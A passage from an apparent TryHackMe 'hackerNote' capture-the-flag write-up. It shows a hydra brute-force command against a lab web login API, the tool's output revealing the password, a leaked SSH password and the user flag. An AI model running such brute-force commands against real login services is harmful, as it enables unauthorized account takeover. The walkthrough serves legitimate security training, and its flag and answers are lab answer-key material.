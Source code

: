 The command for this is (replace the parts with angle brackets, you will need to escape special characters):

`hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>`

Form the hydra command to attack the login API route

`No answer needed`

How many passwords were in your wordlist?

```
kali@kali:~/CTFs/tryhackme/hackerNote$ wc wordlist.txt 
 180  180 1290 wordlist.txt
```

`180`

What was the user's password?

```
kali@kali:~/CTFs/tryhackme/hackerNote$ hydra -l james -P wordlist.txt 10.10.24.100 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-14 22:10:51
[DATA] max 16 tasks per 1 server, overall 16 tasks, 180 login tries (l:1/p:180), ~12 tries per task
[DATA] attacking http-post-form://10.10.24.100:80/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password
[STATUS] 48.00 tries/min, 48 tries in 00:01h, 132 to do in 00:03h, 16 active
[80][http-post-form] host: 10.10.24.100   login: james   password: blue7
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-14 22:12:03
```

`blue7`

Login as the user to the platform

`No answer needed`

What's the user's SSH password?

```
My SSH details

So that I don't forget, my SSH password is dak4ddb37b
```

`dak4ddb37b`

Log in as the user to SSH with the credentials you have.

`No answer needed`

What's the user flag?

```
james@hackernote:~$ cat user.txt 
thm{56911bd7ba1371a3221478aa5c094d68}
```
